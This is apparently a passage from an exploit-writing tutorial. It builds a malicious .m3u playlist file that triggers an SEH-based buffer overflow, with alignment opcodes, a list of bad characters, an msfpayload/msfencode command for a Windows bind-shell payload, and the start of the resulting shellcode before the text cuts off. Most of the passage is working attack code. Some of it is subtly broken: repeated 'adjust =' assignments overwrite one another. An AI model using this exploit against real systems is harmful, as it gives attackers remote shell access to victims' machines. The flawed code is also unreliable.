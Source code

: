 



> #!/usr/bin/python
> junk  = "\\x41" \* 4078
> nseh = "\\x61\\x62"
> seh = "\\xeb\\x46" \* 2
> adjust = "\\x53" # PUSH EBX
> adjust = "\\x62" # NOP padding to absorb the \\x00's that will be added
>                          # after the \\x53 instruction in memory
> adjust = "\\x58" # POP EAX  to make eax point to the beginning of our shellcode.
> adjust = "\\x62" # NOP padding
> adjust = "\\x50" # PUSH EAX to push eax to the stack...
> adjust = "\\x62" # NOP padding
> adjust = "\\xc3" # RETN to go to the beginning of the shellcode....
> buffer = "\\x62" \* 12
> junk2  =  "\\x01\\x02\\x03\\x04\\x05\\x06\\x07\\x08\\x09\\x0b\\x0d\\x0e" 



> exploit = junk + nseh + seh + adjust + buffer + junk2
> handler = open ("subtitle.m3u", "w")
> handler.write(exploit)
> handler.close()

This should now work with all characters appearing correctly in memory. Repeat this process for each line that I pasted above. You should generate the following list of bad characters:



*   \\x00
*   \\x0a
*   \\x0d
*   \\x1a
*   \\x3a
*   \\x5c
*   \\x80



### Generating The Bind Shell

To generate the bind shell we could use msfvenom. However I found it kept on including the bad characters in my final payload. So I decided to do it the old way (aka the way I like to do it :P ) :


> msfpayload windows/shell/bind\_tcp R | msfencode -a x86 -b "\\x00\\x0a\\x0d\\x1a\\x3a\\x5c\\x80" -t c

This should generate you shellcode. Copy and paste it into a new file and search through it for each of the bad characters to double check that none of them slipped through. If all is good, make a new section in the code for this shellcode:



> #!/usr/bin/python
> junk  = "\\x41" \* 4078
> nseh = "\\x61\\x62"
> seh = "\\xeb\\x46" \* 2
> adjust = "\\x53" # PUSH EBX
> adjust = "\\x62" # NOP padding to absorb the \\x00's that will be added
>                          # after the \\x53 instruction in memory
> adjust = "\\x58" # POP EAX  to make eax point to the beginning of our shellcode.
> adjust = "\\x62" # NOP padding
> adjust = "\\x50" # PUSH EAX to push eax to the stack...
> adjust = "\\x62" # NOP padding
> adjust = "\\xc3" # RETN to go to the beginning of the shellcode....
> buffer = "\\x62" \* 12
> shellcode = (
> "\\xdb\\xc2\\xd9\\x74\\x24\\xf4\\xbf\\xe6\\xcb\\xb6\\xa3\\x5d\\x33\\xc9\\xb1"
> "\\x4b\\x31\\x7d\\x19\\x83\\xc5\\x04\\x03\\x7d\\x15\\x04\\x3e\\x4a\\x4b\\x41"